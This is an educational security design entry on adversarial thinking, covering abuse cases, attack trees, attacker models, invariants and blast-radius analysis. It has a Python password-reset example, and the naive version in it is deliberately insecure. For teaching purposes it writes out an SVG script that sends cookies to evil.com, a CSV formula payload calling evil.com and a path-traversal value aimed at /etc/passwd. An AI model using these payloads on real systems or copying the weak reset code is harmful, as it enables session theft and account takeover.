

⚡ TL;DR - Adversarial thinking is the practice of deliberately designing systems from the
attacker's perspective: asking "how would I break this?" before an attacker does.
It is a design methodology, not just a security testing activity. Five adversarial thinking tools:
(1) ABUSE CASES: for every user story, write the corresponding "abuse case" (how would an attacker
misuse this feature?). User story: "As a user, I can reset my password via email." Abuse case:
"As an attacker, I can reset any user's password if I can access their email, guess the reset
token, or exploit a race condition in token validation." Each abuse case reveals specific attack
vectors during design - when they're cheapest to fix. (2) ATTACK TREES: a hierarchical decomposition
of attack goals into sub-goals, down to atomic attacks. Root: "Attacker accesses admin account."
Branches: "Credential theft" OR "Privilege escalation" OR "Social engineering admin."
Each branch: sub-trees. Leaves: specific executable attacks (brute-force the password,
exploit CVE-YYYY-NNNN, phish the admin's email). Attack trees: make abstract "attackers
compromise the system" concrete and actionable. (3) ATTACKER CAPABILITY MODELING: explicitly
define what the attacker CAN and CANNOT do. Can: observe all network traffic (assume public WiFi).
Can: register an account on the platform. Can: use any public tools (Burp Suite, Metasploit,
OWASP ZAP). Cannot: compromise the HSM (hardware security boundary). Cannot: break AES-256.
The explicit model: prevents over-engineering (defending against impossible attacks) and
under-engineering (assuming attackers cannot do what they actually can). (4) INVARIANT THINKING:
for a secure system, identify the invariants that MUST hold for the security guarantee to be valid.
"No user can see another user's data." "All financial transactions require MFA." Then: systematically
attempt to violate each invariant. (5) LATERAL MOVEMENT SIMULATION: once a single component is
compromised, what can the attacker do next? Adversarial thinking includes the "blast radius"
of a partial compromise. A well-designed system: limits lateral movement. An attacker who
compromises the image upload service: should not be able to reach the payment database.

---

| #140 | Category: Security | Difficulty: ★★★★★ |
|:---|:---|:---|
| **Depends on:** | Full SEC library (SEC-001 through SEC-139) | |
| **Used by:** | SEC-141 through SEC-144 | |
| **Related:** | Full SEC library | |

---

### 🔥 The Problem This Solves

**THE DEVELOPER'S BLIND SPOT:**

```
FEATURE DESIGN (defensive thinking only):

  Developer: "We need a file upload feature. Users can upload profile pictures."
  Design: POST /api/users/me/avatar with multipart form data.
  Storage: store in /var/uploads/{user_id}/avatar.{ext}
  Serving: GET /static/uploads/{user_id}/avatar.jpg
  
  Developer: considers: file size limits (10MB), allowed MIME types (image/*).
  Implements: content-type header validation.
  Ships it.

ADVERSARIAL THINKING REVEALS:

  ATTACK 1: PATH TRAVERSAL
  Upload path: /var/uploads/{user_id}/avatar.{ext}
  Attacker: user_id = "../../etc/" and filename = "passwd"
  Upload destination: /var/uploads/../../etc/passwd = /etc/passwd
  Attacker: overwrites the system password file.
  
  The developer: thought about MIME type. Not about path traversal.
  The adversarial question: "If I control user_id, can I control the upload path?"
  
  Fix: validate that the resolved path is within the uploads directory.
  Use: os.path.realpath() and check that it starts with the allowed base path.

  ATTACK 2: POLYGLOT FILES
  Content-Type header: application/jpeg - the validator: passes.
  Actual content: a file that is a valid JPEG AND a valid PHP script.
  (JPEG/PHP polyglot: the EXIF header contains PHP code.)
  
  Attacker: uploads the polyglot. Server: accepts it (JPEG).
  Attacker: requests the file from the web server.
  Web server: recognizes the .php extension (renamed via another attack) and executes PHP.
  Result: remote code execution.
  
  The developer: validated the content-type. Not the actual file content.
  The adversarial question: "What if the content-type header lies? What if the file
  is executable code disguised as an image?"
  
  Fix: validate actual file content (magic bytes, not just MIME type).
  Serve user-uploaded files from a different domain (prevents same-origin code execution).
  Never serve files with executable extensions from web root.

  ATTACK 3: STORED XSS VIA SVG
  SVG files: valid XML that can contain embedded JavaScript.
  <svg><script>document.location='https://evil.com?c='+document.cookie</script></svg>
  
  Attacker: uploads an SVG as "avatar." MIME type: image/svg+xml.
  Server: accepts SVGs (they're images).
  When another user's browser loads the SVG: the JavaScript executes.
  Session tokens: stolen. Every user who views the attacker's avatar: compromised.
  
  The developer: allowed SVG as an "image" format. Not considered SVG as executable.
  The adversarial question: "What image formats can contain executable code?"
  
  Fix: disable SVG uploads. Or: sanitize SVG content (remove script tags, event handlers).
  Or: serve user content from an isolated domain with a restrictive CSP.

  ADVERSARIAL DESIGN OUTCOME:
  All three attacks: discovered before any code was written, by asking adversarial questions.
  Cost to fix at design time: specification change (no code yet).
  Cost to fix after deployment: incident response, user notification, security patch,
  potential breach notification to regulators.
  
  The adversarial thinking: free. The alternative: expensive.
```

---

### 📘 Textbook Definition

**Adversarial Thinking:** A security engineering methodology where system designers explicitly
adopt the perspective of a rational, capable attacker to identify vulnerabilities in a design
before the design is implemented. Distinct from: penetration testing (which discovers vulnerabilities
after implementation), threat modeling (which is a systematic process); adversarial thinking
is the underlying cognitive orientation that informs both. The key shift: from "how do I build
this correctly?" to "how would I attack this if I wanted to compromise its security properties?"

**Abuse Case:** The security equivalent of a use case. Where a use case describes how a legitimate
user accomplishes a goal, an abuse case describes how an adversary misuses the system to violate
a security property. Abuse cases: complement use cases. Every feature should have corresponding
abuse cases written during design.

**Attack Tree:** A hierarchical diagram showing how an attacker could achieve a security goal
(the root) by decomposing it into sub-goals (branches) down to specific executable attacks
(leaves). Nodes: connected by AND (all sub-goals required) or OR (any sub-goal sufficient).
Attack trees: a systematic way to enumerate attack paths and identify which paths are most
likely (based on attacker capability and resources).

**Attacker Model / Threat Model:** An explicit description of: (1) who the attacker is (external,
insider, nation-state, opportunistic); (2) what the attacker CAN do (network interception,
register accounts, access to specific tools); (3) what the attacker CANNOT do (break AES-256,
compromise HSM, have physical access to data center). The attacker model: defines the security
boundary. Without an explicit attacker model: it's unclear what the system needs to defend against.

**Security Invariant:** A property that must ALWAYS hold for the system's security guarantee to
be valid. "No user accesses another user's data." "All admin actions require MFA." "All financial
transactions are audit-logged." Adversarial thinking: systematically attempts to find inputs,
sequences of operations, or states that violate each invariant.

**Lateral Movement:** An attacker's technique of using an initial foothold (one compromised
component) to gain access to additional resources in the system. Adversarial thinking: includes
modeling lateral movement: "If an attacker compromises Component X, what can they access from X?"
A well-designed system: minimizes lateral movement (least privilege, network segmentation, zero trust).

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Adversarial thinking is the practice of designing systems by asking "how would I attack this?"
before an attacker does - using abuse cases, attack trees, invariant testing, and lateral movement
modeling to find vulnerabilities at design time when they're cheapest to fix.

**One analogy:**
> Adversarial thinking is the "red team review" you do in your own head before the red team
> does it in production.
>
> A bank architect designs a new vault.
> DEFENSIVE THINKING: "The vault is constructed from 20cm reinforced steel. The lock is
> a combination plus biometric. The room is fire-resistant. The contents are insured."
>
> ADVERSARIAL THINKING: "If I wanted to rob this vault, how would I do it?"
>
> Option 1: Break the lock. → Can I? → The combination + biometric is secure. → No.
> Option 2: Cut through the wall. → 20cm steel. Impossible with available tools. → No.
> Option 3: Bribe the security guard who has the combination. → Yes? → Add: two-person rule.
> Option 4: Get a fake identity and pass biometric enrollment. → Possible? → Add: identity verification.
> Option 5: Create a distraction that causes the vault to be opened during an emergency,
>           then access it while security is distracted. → Possible? → Add: emergency protocol hardening.
> Option 6: Get hired as a maintenance technician and plant a device during installation. → Possible?
>   → Add: supply chain verification for installation contractors.
> Option 7: Dig a tunnel under the vault floor. → Is there a pressure sensor? → Add: underflooring sensors.
>
> Each adversarial question: revealed a design gap.
> The bank: fixed most gaps in the DESIGN before construction.
> Options 3, 4, 5, 6, 7: all found and addressed before the vault was built.
>
> A defensive-only review: found 0 of these. "The vault is 20cm steel with biometrics. Secure."
> Adversarial review: found 5+ attack vectors that the defensive review missed.
> All 5: cheaper to address at design time than after construction.

---

### 🔩 First Principles Explanation

**Five adversarial thinking tools with worked examples:**

```
TOOL 1: ABUSE CASES

  User Story: "As a user, I can export my account data to CSV."
  
  Abuse Cases:
  
  A1: "As an attacker, I can repeatedly trigger large exports to cause DoS."
  → Mitigation: rate limit exports (1 per hour per user). Async processing.
  
  A2: "As an attacker, I can export another user's data by manipulating the user ID parameter."
  → Mitigation: IDOR protection. The export endpoint ONLY exports the authenticated user's data.
  → Test: GET /api/export?user_id=123 while authenticated as user 456 must return 403.
  
  A3: "As an attacker, I inject formula injection into exported field values."
  → Impact: CSV formulas executed when a victim opens the CSV in Excel/Google Sheets.
  → Technique: upload profile name "=HYPERLINK('http://evil.com?c='&B2,'click me')"
  → Mitigation: sanitize CSV fields. Prefix with ' (single quote) to disable formula execution.
  
  A4: "As an attacker, I can time exports of large datasets to measure response time and
  infer information about other users' data through timing side channels."
  → Mitigation: constant-time exports (add artificial delay or use async processing).
  
  Each abuse case: becomes a test case. Security: validated before release.

TOOL 2: ATTACK TREES

  Root: "Attacker exfiltrates customer PII from the user database."
  
  Level 1:
  OR:
  ├─ Compromise a service with database access
  ├─ Compromise database credentials directly
  ├─ Exploit a vulnerability in the application layer
  └─ Insider threat (employee with legitimate access)
  
  Level 2 (expanding "Compromise a service with database access"):
  OR:
  ├─ Exploit a vulnerability in the API service
  │   OR:
  │   ├─ SQL injection in the API
  │   ├─ Remote code execution via deserialization
  │   └─ SSRF from API to internal database network
  ├─ Compromise the API service's container
  │   OR:
  │   ├─ Exploit a vulnerability in the base image
  │   └─ Exploit a compromised dependency (supply chain)
  └─ Compromise the CI/CD pipeline
      → Plant malicious code that exfiltrates data during deployment
  
  Attack tree analysis: reveals SQL injection, SSRF, and CI/CD compromise as attack paths.
  
  Each leaf: a specific attack. Each attack: can be assessed for:
  - Likelihood (how hard? Does attacker have tools?)
  - Impact (what does success achieve?)
  - Mitigation (what control prevents this attack?)
  
  The attack tree: drives the control design. Controls: prioritized by leaf likelihood × impact.

TOOL 3: ATTACKER CAPABILITY MODELING

  IMPLICIT (BAD): design without stating the attacker model.
  "The system is secure against attackers."
  → What attackers? What capabilities? This is not a design statement.
  
  EXPLICIT (CORRECT): document the attacker model.
  
  ATTACKER MODEL FOR PAYMENT API:
  
  ASSUMED ATTACKER CAPABILITIES:
  - Network: can observe all cleartext network traffic. Cannot break TLS.
  - Credentials: can attempt brute force (rate-limited by our system).
  - Registration: can create multiple accounts on the platform.
  - Tools: can use Burp Suite, sqlmap, OWASP ZAP, Metasploit.
  - Code: can reverse-engineer our mobile app (assume all client-side code is visible).
  - Social: can attempt phishing against non-admin users. Cannot social engineer CSRs (assumed).
  - Time: up to 30 days of continuous automated attack.
  
  EXCLUDED FROM ATTACKER MODEL (explicitly not defended against):
  - Physical access to data centers. (Physical security is separate domain.)
  - Nation-state level cryptanalysis. (AES-256 key sizes protect against this.)
  - Compromise of our cloud provider (AWS). (Assumed trustworthy infrastructure.)
  - Insider threats. (Separate program: HR + access controls + audit logging.)
  
  IMPLICATION:
  "Server-side SSRF to AWS metadata service (http://169.254.169.254)"
  → Is this in scope? → "can observe network traffic" + "can send requests" → Yes.
  → Mitigation: block access to 169.254.0.0/16 in instance security groups.
  
  "Client-side JavaScript manipulation to modify payment amounts"
  → Is this in scope? → "can reverse-engineer mobile app" → Yes.
  → Mitigation: all payment amounts validated server-side. Client input: untrusted.
  
  Without the explicit model: these questions are debated case-by-case.
  With it: answered by checking against the documented model.

TOOL 4: INVARIANT THINKING

  SECURITY INVARIANTS for a multi-tenant SaaS:
  
  I1: "A user in Tenant A can NEVER read Tenant B's data."
  I2: "No user can modify another user's account settings."
  I3: "All state-changing operations require a valid CSRF token."
  I4: "Admin operations require MFA, regardless of how the admin was authenticated."
  
  ADVERSARIAL TEST for I1:
  - Get tenant A's JWT. Try GET /api/reports?org_id=[tenant_B_id]. → Must return 403.
  - Fuzz all API endpoints with a valid JWT but wrong org_id. → All must return 403.
  - Try POST /api/bulk-export with a list including tenant B's resource IDs. → Must exclude them.
  - Try indirect access: GET /api/users/[tenant_B_user_id] via a shared resource link. → Must return 404 or 403.
  
  ADVERSARIAL TEST for I4:
  - Authenticate as admin without MFA (e.g., using an API key). → Must require MFA upgrade.
  - Use a valid admin JWT but with MFA claim = false. → Must reject for admin operations.
  - Attempt admin operation immediately after password auth, before MFA step completes. → Must reject.
  
  Each invariant: a formal statement that can be tested.
  Invariant violations: security bugs.
  Systematic testing against invariants: catches authorization bypasses that functional testing misses.

TOOL 5: LATERAL MOVEMENT SIMULATION

  Scenario: An attacker compromises the image processing microservice.
  (Via a RCE in the image processing library - a realistic attack vector.)
  
  QUESTION: What can the attacker do from inside the compromised service?
  
  CURRENT DESIGN (poor):
  - Image service: runs as root. (No user namespace.)
  - Image service: has DB credentials for the main database (to log processing results).
  - Image service: can reach all internal services (no network segmentation).
  - Image service: has AWS credentials with broad S3 access (read/write to all buckets).
  
  ADVERSARIAL ANALYSIS:
  From the compromised image service, the attacker can:
  1. Access the main database (has credentials). Exfiltrate ALL customer data.
  2. Reach the payment service (no network segment). Attempt internal API attacks.
  3. Read all S3 buckets (broad AWS credentials). Access all stored data.
  4. Escalate to root on the host (runs as root). Escape container. Access other services.
  
  One compromised image service: leads to full platform compromise. Blast radius: maximum.
  
  CORRECTED DESIGN (adversarial thinking applied):
  - Image service: runs as non-root user (UID 1000). Cannot escalate to root.
  - Image service: has NO database access. Results: sent via internal message queue.
    The queue consumer: validates and writes to DB. Service isolation.
  - Image service: can ONLY reach the message queue and the S3 upload bucket. Egress-restricted.
  - Image service: S3 access limited to ONE specific bucket (upload-images-processing).
    Cannot access: payment records, user data, other buckets.
  - seccomp profile: limits syscalls available to the container. Limits container escape.
  
  ADVERSARIAL ANALYSIS (after redesign):
  From the compromised image service, the attacker can:
  1. Read images in the processing bucket only. (The only accessible data.)
  2. Write to the message queue. (Messages are validated by the consumer. Limited impact.)
  Cannot: reach the database, payment service, or other S3 buckets.
  Blast radius: one service's data (currently being processed images). Not the full platform.
  
  The lateral movement analysis: revealed the blast radius problem. Least privilege design: fixed it.
```

---

### 🧪 Thought Experiment

**SCENARIO: Adversarial review of a new "Remember Me" feature:**

```
FEATURE PROPOSAL:
"Allow users to stay logged in for 30 days. Store a 'remember me' cookie.
When the user returns, automatically log them in without entering their password."

ADVERSARIAL THINKING SESSION:

  Q1: "How is the 'remember me' token generated?"
  
  WEAK answer: user_id + timestamp, base64-encoded.
  → Predictable. Attacker: generates tokens for other user IDs. Account takeover.
  
  CORRECT answer: cryptographically random 256-bit token (secrets.token_urlsafe(32)).
  Stored: hashed in the database (same as password storage). The cleartext: in the cookie only.
  
  ADVERSARIAL FOLLOWUP: "Can I brute-force the token?"
  256 bits: 2^256 possibilities. Brute force: impossible. But check: is the database hashing correct?
  
  Q2: "If the cookie is stolen (XSS or network intercept), what does the attacker gain?"
  
  A 30-day cookie: 30 days of access as the user, without any MFA or password check.
  → This is a SIGNIFICANT privilege escalation if stolen.
  
  Mitigations:
  - HttpOnly: prevents XSS from reading the cookie. Attacker: must intercept the network (TLS protects).
  - Secure: HTTPS only.
  - SameSite=Strict: prevents CSRF using the remember-me cookie.
  - Device binding: record the user's device fingerprint (User-Agent, screen resolution hash).
    If the token is used from a different device: require re-authentication.
  
  Q3: "What happens when a user logs out? Is the token revoked?"
  
  If logout doesn't invalidate the remember-me token: the attacker who stole it
  can still use it for 30 days after the user thinks they're logged out.
  
  Fix: logout must immediately invalidate the server-side token record.
  
  Q4: "Can the attacker enumerate valid tokens by trying database attacks?"
  
  If tokens are stored unhashed in the database: a database read (SQL injection)
  gives the attacker all remember-me tokens directly.
  
  Fix: hash tokens before storing (bcrypt or HMAC-SHA256). The hash: useless to the attacker.
  Only the bearer of the actual token can authenticate.
  
  Q5: "What happens if there are 1,000 concurrent remember-me tokens per user
  (account sharing, API abuse, or token leakage)?"
  
  Limit: one active remember-me token per device. Or: maximum 5 tokens per user.
  Exceed limit: oldest token revoked. Alerts: if more than 5 tokens observed.
  
  Q6: "What if an attacker creates a race condition between token validation and issuance?"
  
  Token rotation on use (like refresh token rotation):
  Each time the remember-me token is used: it's replaced with a new one.
  If an old token is used: the server detects reuse (token already replaced).
  → Possible theft: revoke all remember-me tokens for the user. Force re-authentication.
  
  ADVERSARIAL REVIEW OUTCOME:
  Six attack vectors discovered at design time. Before a single line of code.
  Each: addressed with a specific mitigation.
  
  The final design: cryptographically random tokens, stored hashed, HttpOnly+Secure+SameSite,
  device binding for suspicious access, logout invalidation, token rotation on use.
  
  Without adversarial thinking: likely shipped: tokens with a predictable generation scheme +
  no logout invalidation + unhashed storage. The first bug bounty report: would have found all six.
```

---

### 🧠 Mental Model / Analogy

> Adversarial thinking is the "second-order design review."
>
> First-order design review: "Does this design implement the feature correctly?"
> Second-order design review: "Does this design resist an attacker who wants to break it?"
>
> Most engineers: excellent at first-order design review.
> Product: specified feature X. Design: implements feature X. Review: confirms feature X works.
>
> Second-order (adversarial) review: a different skill, a different way of looking at the design.
> "Feature X works. Now: how does an attacker abuse feature X to do something it wasn't designed to do?"
>
> The attacker: doesn't read the spec. The attacker: reads the implementation.
> The attacker: finds the gap between "what the designer intended" and "what the code actually does."
>
> Three categories of gaps:
>
> 1. THE IMPLEMENTATION GAP:
>    Intended: "The API validates the request's user ID against the session."
>    Actual: "The API validates the user ID on 9 of its 10 endpoints." (One was forgotten.)
>    Adversarial question: "Did I forget to add the authorization check anywhere?"
>
> 2. THE TRUST BOUNDARY GAP:
>    Intended: "The server validates all input."
>    Actual: "The server validates user input. But it trusts input from internal services."
>    Attacker compromises an internal service. → Sends malicious input. → Trust boundary exploited.
>    Adversarial question: "What does this component TRUST that it shouldn't?"
>
> 3. THE COMPOSITION GAP:
>    Intended: "Component A is secure. Component B is secure. Together: secure."
>    Actual: Component A + B together create a vulnerability not present in either alone.
>    (Classic example: Component A: accepts JWTs. Component B: uses algorithm in JWT header.
>     Together: algorithm confusion attack → attacker sets algorithm to "none" → no signature check.)
>    Adversarial question: "What happens when these components interact in unintended ways?"
>
> Adversarial thinking: finding all three gaps before they're found by attackers.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Adversarial thinking means deliberately trying to break your own system during design, before an attacker does. Instead of asking "how do I build this feature?", you also ask "if I were an attacker trying to misuse this feature, how would I do it?" A file upload feature: designed for users to share photos. Adversarial question: "What if I upload a file that looks like a photo but is actually a virus?" This question: reveals a security problem during design (when it's cheap to fix), not after deployment (when it's expensive).

**Level 2 - How to use it (junior developer):**
Practical technique: for every feature you build, write 3-5 "What if a malicious user...?" questions. "What if a malicious user: tries to access another user's data via this API?" (IDOR). "What if a malicious user: sends an unusually large input to this endpoint?" (DoS). "What if a malicious user: replays a request multiple times?" (TOCTOU race condition). "What if a malicious user: passes negative values to this financial calculation?" (business logic bypass). These questions: don't require security expertise. They require curiosity about how things can go wrong. The answers: become test cases. If you can't answer "what would happen?": that's a design gap.

**Level 3 - How it works (mid-level engineer):**
Abuse cases: the formal version of adversarial thinking. For a password reset feature: enumerate all the ways it can be misused. (1) Token brute force: is the token cryptographically random? If sequential (reset_token=12345): trivially brute-forced. (2) Token reuse: does the token expire after one use? (3) Token lifetime: does the token expire after 1 hour? A 30-day password reset token: usable by an attacker who intercepts it weeks later. (4) Race condition: if two reset emails are sent, can both tokens be used? (5) User enumeration: does "email not found" vs. "reset email sent" reveal whether an email exists in the system? (6) Clickjacking the reset form: is the reset form frameable? Can an attacker use clickjacking to get the user to reset to an attacker-controlled password? Writing these as abuse cases: forces the design to address each. The final design: much more secure than "we'll send a link, the user clicks it, they set a new password."

**Level 4 - Why it was designed this way (senior/staff):**
The meta-principle of adversarial thinking: asymmetry. A defender must be right every time. An attacker only needs to be right once. This asymmetry: why adversarial thinking needs to be systematic (attack trees, abuse cases, invariant testing) rather than ad-hoc. An ad-hoc adversarial review: finds some vulnerabilities. A systematic review: approaches completeness. The STRIDE threat model (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege): a systematic framework for adversarial thinking. For each component: enumerate which STRIDE threats apply. "Can an attacker SPOOF the identity of this service?" (→ mTLS or API keys). "Can an attacker TAMPER with the data in transit?" (→ TLS + MAC). "Can an attacker REPUDIATE this operation?" (→ audit logging with non-repudiable signatures). "Is there an INFORMATION DISCLOSURE?" (→ error messages reveal system internals). "Can an attacker DoS this service?" (→ rate limiting, resource limits). "Can an attacker ELEVATE their privileges?" (→ authorization checks on every operation). STRIDE: makes adversarial thinking systematic. Each category: a class of attacks. The analysis: is done for each component against each category.

**Level 5 - Mastery (distinguished engineer):**
Adversarial thinking at the architecture level: "defense in depth from first principles." The question is not "is each component secure?" but "what is the blast radius if one component is compromised, and does the architecture minimize it?" This requires thinking about: (1) Trust boundaries: where does trust transition between components? Trust boundaries are where adversarial thinking is most valuable. A trust boundary that doesn't have the correct controls (authentication, authorization, input validation): the attack path. (2) Decomposition of principal: who is "the attacker" at each boundary? At the API boundary: an external user. At the service-to-service boundary: a compromised internal service. At the database boundary: an application with stolen credentials. Each boundary: a different adversary capability. The controls: different at each boundary. (3) The invariant decomposition: what invariants does the architecture guarantee? "No data exfiltration": guaranteed by network egress controls + DLP. "No lateral movement": guaranteed by service mesh policies + least-privilege service accounts. "No unauthorized admin access": guaranteed by MFA + privileged access management. The adversarial review: attempts to violate each invariant through the specific attack paths revealed by the architecture. (4) Security properties of the composition: as components are composed, do security properties compose? HTTPS from client to load balancer + internal cleartext: not end-to-end TLS. JWT validation at the API gateway: does not provide validation at each downstream microservice. The composition adversarial question: "what security properties hold from end to end, vs. only at one layer?"

---

### ⚙️ How It Works (Mechanism)

```
ADVERSARIAL THINKING FRAMEWORK - SECURITY REVIEW CHECKLIST:

  FOR EACH FEATURE / COMPONENT:
  
  1. DEFINE THE SECURITY PROPERTIES (what must be true)
     - Who is authenticated to use this? (AuthN)
     - What is each user authorized to do? (AuthZ)
     - What data must be protected (confidentiality)?
     - What data must not be modified (integrity)?
     - What availability is required?
  
  2. GENERATE ABUSE CASES (how can an attacker violate these properties?)
     - For each security property: how could an attacker bypass it?
     - For each input: what malicious values could an attacker send?
     - For each state transition: what race conditions exist?
  
  3. BUILD AN ATTACK TREE (decompose the most critical attack goals)
     - Root: "Attacker achieves [worst-case outcome]."
     - Decompose: what are the independent paths to this outcome?
     - Leaf: specific executable attacks.
  
  4. VERIFY EACH INVARIANT (systematic attempt to violate security properties)
     - For each invariant: construct a test case that should violate it.
     - The test case: should fail (security control prevents violation).
     - If test case succeeds: invariant is not enforced. Security bug.
  
  5. SIMULATE LATERAL MOVEMENT (what can the attacker do after a partial compromise?)
     - Assume: [component X] is compromised.
     - What can the attacker access from X with X's credentials?
     - Is the blast radius acceptable? Can it be reduced?
```



---

### 💻 Code Example

**Adversarial review of a password reset implementation:**

```python
# adversarial_review_password_reset.py
# Demonstrates adversarial thinking applied to a password reset feature.
# Shows: weak design vs. adversarially-reviewed design.

import secrets
import hmac
import hashlib
import time
from datetime import datetime, timedelta, timezone
from typing import Optional

# ========================================================
# BAD: naive password reset (vulnerable to multiple attacks)
# ========================================================

class NaivePasswordReset:
    """
    The kind of implementation that fails all adversarial tests.
    Each comment: identifies the attack it enables.
    """
    
    def generate_reset_token_bad(self, user_id: int) -> str:
        # ATTACK 1: Sequential token → trivial brute force.
        # Attacker: sends reset for user 1, gets token "1001".
        # Tries tokens "1002", "1003"... for user 2's pending reset.
        return str(user_id * 1000 + int(time.time()) % 1000)
    
    def validate_token_bad(self, token: str, stored_token: str) -> bool:
        # ATTACK 2: Timing oracle → byte-by-byte brute force.
        # == operator: exits early on mismatch. Timing reveals matching prefix.
        return token == stored_token
    
    def reset_with_token_bad(
        self, token: str, new_password: str, db: dict
    ) -> bool:
        stored = db.get("reset_token")
        
        # ATTACK 3: No expiry check.
        # A reset token from 6 months ago: still valid.
        # Attacker: intercepts old email. Still works.
        
        # ATTACK 4: Token reuse. Token stays in DB after use.
        # Attacker: intercepts the reset link. User resets.
        # Attacker: uses the same link 2 minutes later. Works again.
        if stored == token:
            db["password"] = new_password  # No hash - separate bug
            return True
        return False


# ========================================================
# CORRECT: adversarially-reviewed password reset
# ========================================================

class SecurePasswordReset:
    """
    Password reset implementation that addresses each adversarial attack.
    
    Addresses:
    - Token brute force: cryptographically random 256-bit token.
    - Token storage: hashed in DB (database breach doesn't expose tokens).
    - Token expiry: 1-hour validity window.
    - Token reuse: single use (invalidated after use).
    - User enumeration: identical response for valid/invalid email.
    - Timing attack: constant-time comparison.
    """
    
    TOKEN_VALIDITY_MINUTES = 60  # 1 hour
    
    def generate_reset_token(
        self, user_id: int, db: dict
    ) -> str:
        """
        Generate and store a cryptographically secure reset token.
        
        Returns: the plaintext token (sent to user's email).
        Stores: the HASH of the token (so a database breach doesn't expose tokens).
        
        Adversarial test: Is the token predictable?
        256 bits of entropy from secrets.token_urlsafe: 2^256 possibilities.
        Brute force: computationally infeasible.
        """
        # 32 bytes = 256 bits of cryptographic randomness
        token_plaintext = secrets.token_urlsafe(32)
        
        # Store hash of token (like password storage).
        # If database is breached: attacker has hashes, not tokens.
        # Hash cannot be reversed to get the token.
        token_hash = hashlib.sha256(token_plaintext.encode()).hexdigest()
        
        expiry = datetime.now(timezone.utc) + timedelta(
            minutes=self.TOKEN_VALIDITY_MINUTES
        )
        
        db[f"reset:{user_id}"] = {
            "token_hash": token_hash,
            "expires_at": expiry.isoformat(),
            "used": False
        }
        
        return token_plaintext  # Send this to the user's email ONLY
    
    def validate_and_consume_token(
        self,
        user_id: int,
        provided_token: str,
        db: dict
    ) -> bool:
        """
        Validate a reset token. Single-use: invalidated on first valid use.
        
        Adversarial tests:
        - Expired token: rejected (1-hour window).
        - Reused token: rejected (marked as used on first consumption).
        - Token for different user: rejected (keyed by user_id).
        - Timing attack: constant-time comparison.
        """
        stored = db.get(f"reset:{user_id}")
        
        if not stored:
            # No reset token on record for this user.
            # SECURITY: return False, do NOT leak whether the user exists.
            return False
        
        # Check: already used (prevents token reuse)
        if stored.get("used", True):
            return False
        
        # Check: not expired
        expires_at = datetime.fromisoformat(stored["expires_at"])
        if datetime.now(timezone.utc) > expires_at:
            db.pop(f"reset:{user_id}", None)  # Clean up expired token
            return False
        
        # Compute the hash of the provided token for comparison
        provided_hash = hashlib.sha256(provided_token.encode()).hexdigest()
        
        # CONSTANT-TIME comparison: prevents timing oracle
        # BAD: if stored["token_hash"] == provided_hash  (early exit on first mismatch)
        # GOOD: hmac.compare_digest (always compares all bytes in constant time)
        if not hmac.compare_digest(
            stored["token_hash"].encode(),
            provided_hash.encode()
        ):
            return False
        
        # SINGLE USE: mark as used immediately.
        # Any subsequent attempt with the same token: rejected.
        stored["used"] = True
        
        return True
    
    def request_password_reset(
        self, email: str, user_lookup: dict, db: dict
    ) -> None:
        """
        Request a password reset. Constant-time response (prevent user enumeration).
        
        BAD: if email not in system → return "Email not found" (user enumeration)
        CORRECT: always return success-like response. Email sent only if user exists.
        
        Adversarial test: can an attacker determine if an email is registered?
        With enumeration: yes (error message differs). Enables targeted phishing.
        Without enumeration: no (always the same response).
        """
        user_id = user_lookup.get(email)
        
        if user_id:
            # User exists: generate and (in production) send the reset email.
            token = self.generate_reset_token(user_id, db)
            # send_password_reset_email(email, token)
            # (In production: async email send via SES/SendGrid)
        
        # CRITICAL: always return the same response, regardless of whether the
        # email was found. An attacker: cannot distinguish "user exists" from "user doesn't exist."
        # (Do NOT: return different status codes, response times, or messages based on existence.)
        return  # Always: "If that email exists, you'll receive a reset link."
```

---

### ⚖️ Comparison Table

| Adversarial Tool | Best For | Output | When to Apply |
|:---|:---|:---|:---|
| **Abuse Cases** | Feature-level security | Per-feature attack list + test cases | During feature design |
| **Attack Trees** | System-level comprehensive attack enumeration | Hierarchical attack paths with mitigations | During architecture design |
| **Attacker Capability Model** | Defining the threat scope | Explicit "can/cannot" attacker model | At project start, before any design |
| **STRIDE** | Systematic component-level threat enumeration | Per-component threat list | During component design |
| **Invariant Testing** | Verifying authorization and business logic | Test suite for security properties | Before release |
| **Lateral Movement Simulation** | Blast radius analysis | Service-to-service access impact after partial compromise | During architecture review |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "Adversarial thinking is only for security engineers. Developers just build features." | This is the origin of most security vulnerabilities: developers who never consider "how would an attacker use this feature?" When the developer writes the feature code AND the attacker's test cases don't exist until a penetration test six months later: the feature ships with predictable vulnerabilities. Adversarial thinking: not a specialization. A core engineering skill, like error handling. A developer who doesn't consider error conditions: ships code that crashes. A developer who doesn't consider adversarial use: ships code with security vulnerabilities. The economics: a design-time security review costs hours. A post-deployment security incident costs millions (breach response, regulatory fines, reputation). The mitigation: every developer applies adversarial thinking during design. Security engineers: review and escalate, but cannot substitute for developer-level adversarial thinking in a large organization. OWASP's "Shifting Left": the formalization of this principle. Security: early in the SDLC, not just at the end. |
